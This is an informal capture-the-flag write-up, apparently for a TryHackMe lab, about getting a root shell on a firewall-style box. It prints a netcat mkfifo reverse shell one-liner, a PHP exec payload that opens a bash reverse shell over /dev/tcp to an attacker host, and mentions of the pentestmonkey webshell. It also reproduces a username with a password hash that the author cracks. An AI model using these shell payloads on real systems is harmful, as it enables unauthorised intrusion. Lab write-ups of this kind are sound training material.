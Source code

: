 # First Contact

This time I thought would continue black-boxing from this point:

Enumerate box
```bash
which nc
/usr/bin/nc

which python3
/usr/bin/python3

id
uid=0(root) gid=0(wheel) groups=0(wheel)
```
No socat unfortunately, but hopeful I will hopeful use it later.
Check the tmp directory exists and its contents
![fw-tmp-dir](Screenshots/fw-ls-la-tmp)
Executed a Bash shell, change $IP and $PORT to Kali VM with listener listening:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f
chmod +x /tmp/f
/tmp/f
```

![denied1](Screenshots/fw-Shell-denied.png)

I tried also:
```bash
chmod 777 /tmp/f

nc -lvnp 8080 # only got usage prompt so no execution:
usage: nc [-46DdEFhklNnrStUuvz] [-e policy] [-I length] [-i interval] [-O length]
	  [-P proxy_username] [-p source_port] [-s source] [-T ToS]
	  [-V rtable] [-w timeout] [-X proxy_protocol]
	  [-x proxy_address[:port]] [destination] [port]
```

The I tried a pentest monkey webshell seeing as it is a website of sorts.

```bash
chmod +x /tmp/monkey.php
/tmp/monkey

/tmp/monkey.php: cannot open ?php: No such file or directory
/tmp/monkey.php: //: Permission denied
/tmp/monkey.php: 3: Syntax error: "(" unexpected
```

Also it uploaded to /tmp, not /var/www/html/. So then I tried:

```php
"<?php exec("/bin/bash -c 'bash -i > /dev/tcp/$ip/$port 0>&1'");?>"
```

![denied2]((Screenshots/fw-phpExecDenied.png)

Then tried putting the pentest monkey code into the execute php command changed the I provided IP address of the Kali VM on THM to its inet IP not generic IP used in reverse shells. 

![root-fw](Screenshots/fw-initial-root.png)

And the flag

![root-fw](Screenshots/fw-root-flag.png)

Tried stablising with:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

But it broke, tried again:

![root-stab](Screenshots/fw-shell-stab-broke.png)

![root-log](Screenshots/fw-find-logs.png)

Why would you have login.log

HumphreyW:1c13639dba96c7b53d26f7d00956a364

![cracked](Screenshots/fw-humpreyw-cracked.png)

Note that if this was an actual Pentest that permission to use third party Hashcracking would have to be within scope due to handing over confidential data to an outside source in the form of a hash. If that third was compromised morally or in terms of their security then traffic data could be linked to the hash.

